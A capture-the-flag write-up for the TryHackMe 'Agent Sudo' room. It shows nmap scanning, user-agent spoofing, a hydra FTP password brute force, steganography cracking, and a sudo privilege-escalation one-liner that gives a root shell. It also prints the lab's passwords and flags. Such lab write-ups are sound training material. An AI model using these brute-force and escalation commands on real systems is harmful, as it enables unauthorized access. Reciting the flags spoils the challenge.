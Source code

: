 ###### You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth. 
Room: https://tryhackme.com/room/agentsudoctf
##

**sudo nmap** -sS -sV -T5 -vv xx.xx.xxx.xxx  
```
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 63 vsftpd 3.0.3
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

I couldn't discover any directories on the website, so I assume it's there only to give us some hints.  
```
Dear agents,

Use your own codename as user-agent to access the site.

From,
Agent R 
```

It indicates us that in order to have access to the website we might want to change our user-agent to another letter.  

I started to try every letter as a user-agent, starting from A. **C** seems to be the lucky one.  
> curl -A "C" -L xx.xx.xxx.xx

```
Attention chris, <br><br>

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>

From,<br>
Agent R 
```

The next hint indicates that the user chris is using a weak password.  
We have two services left, FTP and SSH.  
After trying to bruteforce SSH with no result, the only option is now FTP.  

> sudo hydra -l chris -P /usr/share/wordlists/rockyou.txt  xx.xx.xxx.xxx ftp

```
[21][ftp] host: xx.xx.xxx.xxx   login: chris   password: crystal
```

We got 3 files from FTP.
```
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
```

**content of To_agentJ.txt**
```
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

Using **steghide** on the .jpg photo, we can see that it has embedded data protected by a unknown passphrase.
Steghide can't help us with .png photos. Let's give **binwalk** a try.  

```
DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22
```

It seems it contains a zip archive inside it.  

**binwalk** -e cutie.png

Among extracted files, there is a .zip archive called **8702.zip** which is password protected.  

**zip2john** 8702.zip > hash  
**john** hash  

> alien            (8702.zip/To_agentR.txt)

Since **unzip -P alien 8702.zip** seems to give us some kind of error ([read more](https://newbedev.com/error-trying-to-unzip-file-need-pk-compat-v6-1-can-do-v4-6)), we'll extract the archive using **7zip**.

**7z x** 8702.zip -palien

**Content of To_agentR.txt**
```
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```

If we convert **QXJlYTUx** from base64 back to ASCII, we get the passphase **Area51** which can be used to extract the data embedded in the other photo.  

**steghide** extract -sf cute-alien.jpg
```
wrote extracted data to "message.txt".



Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

We got SSH credentials.  

**Firsrt flag, located in /home/james, is b03d975e8c92a7c04146cfa7a5a313c7** **[1]**.

Since we don't have access to run anything as sudo, I followed the room hints and checked the sudo version.
```
Sudo version 1.8.21p2
```

After some research, I found that this version of sudo can be exploited, elevating the privileges of the user to root.  

> sudo -u \#$((0xffffffff)) /bin/bash
```
james@agent-sudo:~$ sudo -u \#$((0xffffffff)) /bin/bash
root@agent-sudo:~#
```

**The second and final flag is at /root/root.txt and is b53a02f55b57d4439e3341834d70c062** **[2]**.
##

**Note**: At the steganography stages, we could've created a custom wordlist themed on aliens and bruteforce the passphrase directly.  


